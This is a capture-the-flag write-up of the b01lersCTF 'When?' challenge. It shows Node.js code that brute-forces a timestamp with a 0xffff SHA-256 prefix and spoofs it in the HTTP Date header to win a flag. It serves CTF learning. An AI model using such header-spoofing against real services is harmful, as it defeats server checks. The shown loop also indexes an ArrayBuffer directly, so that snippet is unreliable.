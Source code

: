 # b01lersCTF — “When?” Write‑Up

> Sometimes all it takes to win is being in the *right place* at the *right time*… or just faking it.

---

## Why I Picked This One

The challenge name **“When?”** immediately sounded suspiciously time-based. A quick peek at the source code showed that a  timestamp is needed to satisfy a specific hash constraint. Combine that with a custom `Date` header in an HTTP request, and we’ve got ourselves a fairly easy exploit

---

## What You Need

- **Node.js** (v18+ with `WebCrypto` support)

- **Internet** connection to reach `when.atreides.b01lersc.tf`

- **Basic knowledge** of HTTP headers and SHA-256

```bash
node solution.js
```

---

## The Challenge in a Nutshell

You are given a link to a webpage `https://when.atreides.b01lersc.tf/`. Visiting this page shows following interface

![](assets/2025-04-26-09-36-37-image.png)

An attempt to gamble shows similar output to this 

![](assets/2025-04-26-09-37-49-image.png)

Now after taking a look that the client source i see this 

```js
await fetch("/gamble", { method: "POST"})
```

After inspecting the gamble route 

```js
if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{redacted}"
            })
  } 


```

- The server checks that the **first two bytes** of the hash are `0xff`.

- If true, it returns a fake flag (in the live challenge, it would be real).
  
  ##### Key Points

- The server trusts the `Date` header — meaning **you can search for a valid timestamp offline**, then spoof it in your request.

- SHA-256 is computationally expensive but not impossible to brute-force for this use case.

- You only need to find a timestamp whose **SHA-256 hash starts with `0xffff`**.

Once found, it sends a POST request to:

```
https://when.atreides.b01lersc.tf/gamble
```

…with this timestamp set as the HTTP `Date` header.

If the server agrees the timestamp is “lucky,” it replies with a flag.

---

## Step 1: Find a Lucky Number

Here’s the relevant part of `solution.js` that does the heavy lifting:

```ts
let number = Math.floor(Date.now() / 1000);
while (true) {
    const hash = await subtle.digest("SHA-256", Buffer.from(number.toString()));
    if (hash[0] === 255 && hash[1] === 255) break;
    number++;
}
```

The loop brute-forces starting from “now,” trying one Unix timestamp after another.

Once a valid one is found (which is rare, but not *that* rare), it posts to `/gamble` with:

```ts
headers: {
    date: new Date(number * 1000)
}
```

---

## Step 2: Let It Run

Just run the script and watch the console:

```bash
$ npm install
$ node solution.js

{
  success: true,
  result: '1111111111111111',
  flag: 'bctf{ninety_nine_percent_of_gamblers_gamble_81dc9bdb}'
}
Found: 1745748971
Hash: ffff87b6b450c8c01b1425109f8d0b5f22d86e77028bbdbadf275c6a142d8c12
```

And there it is — the flag.



## Lessons Learned

1. **Time-based PoW** is neat — especially when it's just one extra HTTP header.

2. **Don’t trust client headers blindly** — this server lets anyone spoof any time.

3. **SHA-256 randomness** makes brute-forcing feasible but still a decent challenge.

4. **Rate limiting helps** — the server caps brute-force attempts to 60/min, which slows things down just enough.
